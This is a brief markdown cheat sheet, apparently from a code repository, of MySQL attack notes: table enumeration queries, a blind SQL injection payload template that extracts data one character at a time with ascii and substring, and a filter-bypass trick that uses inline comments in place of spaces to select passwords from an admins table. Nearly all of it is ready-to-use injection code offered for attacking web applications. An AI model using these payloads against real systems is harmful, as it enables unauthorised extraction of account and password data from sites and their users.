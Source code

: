 ## MySQL
## Enumerate DB
```sql
-- Describe tables
DESCRIBE accounts

-- Select and Print output on online 
select * from users \G
```

## Blind SQLi
```sql
# %s is sub query to extract account, %d is charchter index in string
# [CHAR] is the guessed value
test'/**/or/**/(ascii(substring((%s),%d,1)))=[CHAR]/**/or/**/1='
```

## Filter Bypass
### Spaces
```sql
select/**/password/**/from/**/AT_admins
```